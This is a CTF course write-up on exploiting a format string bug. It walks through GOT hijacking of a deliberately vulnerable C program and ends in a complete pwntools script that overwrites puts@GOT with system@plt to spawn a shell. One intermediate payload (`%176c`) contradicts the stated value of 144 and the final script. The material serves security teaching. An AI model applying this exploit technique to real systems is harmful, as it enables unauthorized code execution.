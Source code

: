 ```yaml
---
title: Simple PWN - 0x11(format string bug)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x11(format string bug)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`


## format string bug background
[printf %n](https://www.geeksforgeeks.org/g-fact-31/)
![](https://media.geeksforgeeks.org/wp-content/cdn-uploads/20191009172738/n-in-printf.jpg)

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char fmt[0x20];

    system("echo 'Give me fmt: '");
    read(0, fmt, 0x20);
    printf(fmt);

    system("echo 'Give me string: '");
    read(0, fmt, 0x20);
    puts(fmt);

    return 0;
}
```
```bash!
$ gcc -o fmt fmt.c -no-pie -fno-stack-protector -z norelro -zexecstack
```
* In this problem, we can consider to use `format string bug` to achieve `GOT hijacking` without buffer overflow.
* **The main idea is totally the same as [GOT hijacking lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/S1BBpSR5s)**
* Thus, we can observe which function can be overlapped by `system plt` → <font color="FF0000">**`puts function`**</font>
    * Because...
    `puts` just needs one argument like `system` function, but how about `printf`?
    Unfortunately, it appeared before 2nd read function, because 2nd `read` needs to store the argument for `system` function such as `sh\x00`.

## Exploit - GOT hijacking + format string bug
**Our goal is hijack `puts GOT` to `system plt`**
1. Find `puts GOT` address and `system plt` → <font color="FF0000">`0x403318` and `0x401090`</font>
    ```bash
    $ objdump -d fmt
    ...
    0000000000401090 <system@plt>:
      401090:       f3 0f 1e fa             endbr64
      401094:       f2 ff 25 85 22 00 00    bnd jmp *0x2285(%rip) # 403320 <system@GLIBC_2.2.5>
      40109b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
    ...
    $ gdb fmt
    ...
    pwndbg> attach <PID>
    pwndbg> got

    GOT protection: No RELRO | GOT functions: 5

    [0x403318] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
    [0x403320] system@GLIBC_2.2.5 -> 0x7f87de291d60 (system) ◂— endbr64
    [0x403328] printf@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
    [0x403330] read@GLIBC_2.2.5 -> 0x7f87de355980 (read) ◂— endbr64
    [0x403338] setvbuf@GLIBC_2.2.5 -> 0x7f87de2c2670 (setvbuf) ◂— endbr64
    ...
    ```
2. Construct format string - try and error
    ```python!
    r.sendafter("Give me fmt: ", b"%176c%8$hhn" + b"aaaaa" + p64(puts_got))
    ```
    **從結果來看比較清楚**
    ![](https://imgur.com/G4YPrXO.png)

    * Parse `b"%176c%8$hhn" + b"aaaaa" + p64(puts_got)`
Our goal is overlap `puts GOT`, so we put address of puts_got at final position, that is `[%rsp + 16]`(format string: `$8`)
We want to modify `0x401030` to `0x401090`, so we just modify only **1 bytes**(format string: `%hhn`). In addition, <font color="FF0000">`0x90` is 144</font> as decimal.(format string: `%176c`)
Combine all format sting: `%176c%8$hhn` and other space can pad trash bytes

3. Pass the command to `system` function - `sh\x00` to open shell
    ```python!
    r.sendafter("Give me string: ", "sh\x00")
    ```
4. Finally, we got shell!!!
    ![](https://imgur.com/Zh5jE4N.png)
    
* Whole exploit
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process("./fmt")
    raw_input()

    puts_got = 0x403318
    system_plt = 0x401090

    r.sendafter("Give me fmt: ", b"%144c%8$hhn" + b"aaaaa" + p64(puts_got))
    r.sendafter("Give me string: ", "sh\x00")

    r.interactive()
    ```